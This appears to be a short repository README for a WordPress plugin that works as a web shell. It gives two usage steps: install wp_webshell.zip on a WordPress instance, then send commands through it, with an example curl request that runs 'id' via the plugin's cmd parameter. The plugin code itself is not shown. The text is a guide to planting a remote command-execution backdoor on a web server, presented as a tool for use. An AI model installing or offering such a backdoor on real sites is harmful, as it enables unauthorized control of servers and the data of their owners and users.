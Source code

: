 # Webshell Plugin Wordpress

## Usage
1 - Clone this repository and install the `wp_webshell.zip` plugin on your WordPress instance.
<img width="884" height="90" alt="IMG" src="https://github.com/user-attachments/assets/4ed64787-14a4-46f7-be66-84e9c4167012" />

2 - Use the web shell from the browser or terminal.
```bash
curl http://example.com/wp-content/plugins/wp_webshell/wp_webshell.php?cmd=id
```
<img width="838" height="72" alt="IMG" src="https://github.com/user-attachments/assets/4fd9260b-b448-441c-938a-e5c6248dc9b2" />
